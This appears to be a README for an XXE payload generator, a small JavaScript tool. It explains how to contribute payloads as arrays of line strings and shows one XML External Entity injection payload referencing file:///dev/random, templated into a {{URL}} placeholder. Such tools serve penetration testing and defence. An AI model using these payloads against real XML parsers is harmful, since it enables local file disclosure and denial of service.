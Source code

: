 # xxe-generator

The source code is uncomplicated JavaScript, HTML and CSS code. Usage of massive front-end frameworks is a waste of resources IMO. 

## Contribute Payloads

The payload is an array of strings, each of which is a substring of the payload formed by splitting it on boundaries formed by the new line character.

An example:
```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM  "file:///dev/random" >]>
<foo>&xxe;</foo>
```

would be transformed to

```javascript
['<?xml version="1.0" encoding="ISO-8859-1"?>','<!DOCTYPE foo [','  <!ELEMENT foo ANY >','  <!ENTITY xxe SYSTEM "{{URL}}" >]>','<foo>&xxe;</foo>'],
```

Note that the URI `file:///dev/random` is replaced with the placeholder `{{URL}}`.
